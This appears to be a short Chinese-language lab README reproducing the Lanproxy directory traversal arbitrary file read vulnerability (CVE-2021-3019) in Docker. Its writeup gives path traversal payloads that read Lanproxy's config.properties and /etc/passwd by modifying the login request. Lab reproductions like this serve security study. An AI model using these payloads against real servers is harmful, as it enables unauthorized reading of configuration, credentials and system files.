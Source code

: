 # Lanproxy任意文件读取漏洞
## 漏洞描述
lanproxy 目录穿越任意文件读取漏洞  
  
version:0.1
## 启动
`docker-compose up -d`
## writeup
登录页抓包更改请求，直接读取lanproxy的配置文件  

`/../conf/config.properties`  

读取etc/passwd  

`/../../../../../../../../../etc/passwd`  

## 复现结果
![ALT 1](/lanproxy/CVE-2021-3019/1.png)  


![ALT 2](/lanproxy/CVE-2021-3019/2.png)

